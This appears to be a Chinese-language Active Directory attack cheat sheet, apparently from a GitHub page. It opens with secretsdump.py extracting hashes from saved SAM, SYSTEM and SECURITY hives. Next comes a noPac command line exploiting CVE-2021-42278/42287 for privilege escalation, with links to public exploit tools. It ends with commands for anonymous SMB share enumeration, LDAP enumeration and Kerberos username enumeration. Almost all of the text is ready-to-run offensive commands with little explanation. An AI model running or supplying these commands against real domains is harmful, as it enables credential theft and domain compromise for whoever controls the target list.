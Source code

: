 提取明文hash

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

然后恢复。



##### CVE-2021-42278 && CVE-2021-42287

[sam-the-admin](https://github.com/WazeHell/sam-the-admin)

[noPac: CVE-2021-42287/CVE-2021-42278](https://github.com/cube0x0/noPac)

~~~
./noPac.exe -domain dc.com -user username -pass 'password' /dc owa.dc.com
/mAccount mAusername /mPassword password /service cifs /ptt
~~~





# 4.列出可匿名访问的SMB共享



~~~ABAP
enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>

smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>

smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>

cme smb <ip> -u '' -p '' # 枚举可空Session访问的SMB共享

cme smb <ip> -u 'a' -p '' #枚举可匿名访问的SMB共享
~~~



# 5.枚举LDAP

~~~ABAP
nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>

ldapsearch -x -h <ip> -s base  
~~~



# 6.查找用户名

~~~ABAP
enum4linux -U <dc-ip> | grep 'user:'

crackmapexec smb <ip> -u <user> -p '<password>' --users 

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip> 

OSINT - 在互联网上寻找用户名
~~~
